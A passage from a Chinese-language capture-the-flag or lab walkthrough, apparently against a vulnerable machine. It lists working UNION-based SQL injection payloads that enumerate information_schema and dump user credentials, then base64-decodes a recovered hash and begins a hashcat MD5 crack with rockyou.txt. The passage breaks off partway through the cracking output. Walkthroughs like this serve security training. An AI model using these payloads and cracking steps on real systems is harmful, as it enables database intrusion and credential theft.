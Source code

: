 -   ![image-20230609100519574](https://raw.githubusercontent.com/r0o983/images/main/image-20230609100519574.png)

-   查看当前的库信息，版本信息，用户信息`" union select version(),database(),user() -- -  `

-   ![image-20230609100723443](https://raw.githubusercontent.com/r0o983/images/main/image-20230609100723443.png)

-   列出当前所有表的信息，通过读取`information_schema`表 ` " union select table_schema,table_name,3 from information_schema.tables; -- - `

-   ![image-20230726104342105](https://raw.githubusercontent.com/r0o983/images/main/image-20230726104342105.png)

-   查找当前数据库的表`seth`,读取具体信息`" union select table_name,2,3 from information_schema.tables='seth'; -- - `

-   ![image-20230728185132250](https://raw.githubusercontent.com/r0o983/images/main/image-20230728185132250.png)

-   查询当前`users`表的字段，`" union select column_name,2,3 from information_schema.columns where table_schema='seth' and  table_name='users'; -- -`

-   ![image-20230728185342962](https://raw.githubusercontent.com/r0o983/images/main/image-20230728185342962.png)

-   根据回显位置直接查出`id,user,pass`信息`" union select id,user,pass from users -- - `

-   ![image-20230728185518364](https://raw.githubusercontent.com/r0o983/images/main/image-20230728185518364.png)

-   获得ramses用户的密码：`YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE`

-   使用kali自带的解码工具或者直接浏览器搜索解密即可得到以下字符串

-   ```shell
    ❯ echo -n "YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE" | base64  -d
    c6d6bd7ebf806f43c76acc3681703b81
    ```

-   使用md5将字符串进行解密，使用hashcat或者john都可以进行破解，语法类似效果相同。

-   ```shell
    hashcat -m 0 -a 0 crash /usr/share/wordlists/rockyou.txt     
    hashcat (v6.2.6) starting
    
    OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
    ==================================================================================================================================================
    * Device #1: pthread-sandybridge-Intel(R) Core(TM) i5-10500 CPU @ 3.10GHz, 2910/5884 MB (1024 MB allocatable), 4MCU
    
    Minimum password length supported by kernel: 0
    Maximum password length supported by kernel: 256
    
    Hashes: 1 digests; 1 unique digests, 1 unique salts
    Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
    Rules: 1
    